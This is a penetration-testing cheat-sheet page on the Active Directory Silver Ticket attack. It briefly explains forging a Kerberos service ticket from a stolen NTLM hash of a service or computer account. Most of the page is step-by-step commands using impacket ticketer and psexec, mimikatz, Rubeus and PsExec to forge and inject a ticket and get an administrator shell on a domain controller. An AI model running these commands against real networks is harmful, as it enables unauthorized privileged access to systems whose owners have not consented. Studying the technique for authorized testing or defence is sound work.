 # Silver ticket

## Overview
The Silver ticket attack is based on **crafting a valid TGS for a service once the NTLM hash of service is owned (like the PC account hash).** Thus, it is possible to gain access to that service by forging a custom TGS as any user.     
In this case, the NTLM hash of a computer account (which is kind of a user account in AD) is owned. Hence, it is possible to craft a ticket in order to get into that machine with administrator privileges through the SMB service. The computer accounts reset their passwords every 30 days by default.

## Tools needed
- [getPac](https://github.com/fortra/impacket/blob/master/examples/getPac.py)
- [ticketer](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [Rubeus](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_x64/Rubeus.exe)
- [PSExec (from Sysinternals Suite)](https://learn.microsoft.com/en-gb/sysinternals/downloads/sysinternals-suite)

## Exploitation
### Remote
```bash
# Get the ccache file
python ticketer.py -nthash <nthash> -domain-sid <sid> -domain domain.local -spn cifs/dc.domain.local <user>

# Set environment variable
export KRB5CCNAME=user.ccache

# Get shell
python psexec.py domain.local/user@dc.domain.local -k -no-pass
```

### Local
```powershell
# Create the ticket
mimikatz.exe "kerberos::golden /domain:domain.local /sid:<sid> /rc4:<hash> /user:<user> /service:cifs /target:dc.domain.local"

# Inject in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi

# Get a shell
.\PsExec.exe -accepteula \\dc.domain.local cmd
```

## References
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)